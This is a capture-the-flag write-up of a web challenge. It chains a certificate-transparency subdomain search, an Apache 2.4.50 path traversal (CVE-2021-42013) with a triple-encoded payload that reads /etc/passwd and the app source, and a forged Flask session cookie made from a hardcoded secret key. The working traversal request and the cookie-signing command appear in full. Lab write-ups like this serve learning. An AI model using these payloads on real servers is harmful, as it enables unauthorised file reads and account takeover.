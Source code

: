 # Lukas App

## Description

> After the excellent success of the luca-app we now decided to build our own tracing apps. We still have some technical difficulties but you may still want to have a look: https://lukas-app.de. At least we managed to get the TLS certificates for all hosts!
>
> Hint 1: Read the challenge description carefully. There already is a big hint in it.
>
> Hint 2: There is only a tiny bit of guesswork involved, and it's not hard to find. A lot of teams already found it. Also again: Automated tooling like dirbuster or sqlmap will not help you with this challenge.
>
> Hint 3: We at Lukas App are proud to be running our software in the cloud. We don't even need to care about server updates or weird protocol headers anymore.

## Solution

The contents of https://lukas-app.de are not very interesting. It's only a static site, with a non-working captcha. The web challenges in this CTF don't involve any scanning and brute-forcing, so there's nothing else for us here.

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.51.36 AM.png>)

### Certificate Search

The description said "At least we managed to get the TLS certificates for all hosts!", and the hints point us in that direction, so I decided to do a `crt.sh` certificate search.

![](<../../.gitbook/assets/image (81) (1).png>)

This indeed revealed two additional subdomains! `beta.lukas-app.de` is another web app. There's a login page, but not much else.&#x20;

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 11.57.41 AM.png>)

I noticed that the logo here is fetched from `https://cdn.lukas-app.de/static/logo.png`. But when visiting this URL, we are actually redirected to another domain: `https://cdn-eu-west.lukas-app.de/static/logo.png`.

### Path Traversal

Looking at the response headers, I immediately noticed that we have hit the jackpot - this server, unlike the others, returned `Server: Apache/2.4.50 (Unix)`, which was vulnerable to a recent path traversal vulnerability (CVE-2021-42013)!

{% embed url="https://www.exploit-db.com/exploits/50406" %}

Using the usual payload (`.%%32%65`), however, gave us a 400 Bad Request. I think this was due to the server using both Nginx (which would have already performed one round of URL decoding) and Apache (which would then receive the URL-decoded path). To overcome this, I had to URL-encode the PoC payload again (a _triple_ URL encoding by now!)

Now we get a different error (403 Forbidden) using `GET /cgi-bin/.../etc/passwd`.

I was stuck here for a while, until I came across some inspiration from [Twitter](https://twitter.com/\_\_mn1\_\_/status/1445655933242134530): instead of `/cgi-bin/` maybe the `/static/` path, where the logo is stored, is an `Alias` to some directory?

![](<../../.gitbook/assets/Screenshot 2021-11-29 at 12.09.16 PM.png>)

I finally got a working path traversal: `GET /static/%25%2532%2565%25%2532%2565%2F%25%2532%2565%25%2532%2565%2Fetc/passwd HTTP/2`

I then read the Apache configuration file (at `/usr/local/apache2/conf/httpd.conf`), which confirmed my hypothesis. Interestingly, the `/static/` URL maps to `/app/static`. Could this be the same directory where the web app is stored?

```
...

Alias "/static" "/app/static"

...
```

Indeed, I was able to read the source code from `/app/app.py`.

```python
#!/usr/bin/env python3

from flask import Flask, session, redirect, url_for, escape, request, render_template
import werkzeug.exceptions
import crypt
import secrets

app = Flask(__name__)
app.secret_key = "secrets.token_bytes(50)"

FLAG = open("/flag.txt").read()

@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."

@app.route("/robots.txt")
def robotstxt():
    return open("robots.txt").read()

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.tpl", msg=request.args.get("msg", ""))

    username = request.form["username"]
    password = request.form["password"]

    # use system logins during beta phase, needs to be moved to database for production use!
    users = dict(x.split(":")[:2] for x in open("/etc/shadow").readlines() if x.split(":")[1][0] != "!")
    if username not in users:
        return redirect("/login?msg=Invalid+credentials")
    if crypt.crypt(password, users[username]) != users[username]:
        return redirect("/login?msg=Invalid+credentials")

    session["username"] = username
    return redirect("/")

@app.errorhandler(werkzeug.exceptions.BadRequest)
def handle_bad_request(e):
    return "/app/app.py:app raised an exception:<br/>" + str(e), 400

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)
```

### Baking Cookies

The final nail in the coffin came from the following programming error in the secret key (it's a string):

```python
app.secret_key = "secrets.token_bytes(50)"
```

We simply need to change our session `username` to `root`, in order to get the flag.

```python
@app.route("/")
def index():
    if "username" not in session:
        return redirect("/login?msg=Login+required")

    if session["username"] == "root":
        return "Hello, %s!<br/>\nHave a nice flag: %s" % (session["username"], FLAG)
    else:
        return "Hello, %s!<br/>\nNo flags available for you."
```

Since the server uses client-side cookies, we can simply sign the Flask cookie with our desired username.

```
$ flask-unsign --sign --cookie "{'username': 'root'}" --secret "secrets.token_bytes(50)"
eyJ1c2VybmFtZSI6InJvb3QifQ.YaORNg.qF6ApxeBVfgNfKnMi5j6FegPqSM
```

Change the session cookie and get the flag!

```
Hello, root!
Have a nice flag: CSR{%79%6f%75%20%63%61%6e%27%74%20%65%73%63%61%70%65%20%74%68%65%20%64%6f%75%62%6c%65%20%64%6f%74%73}
```
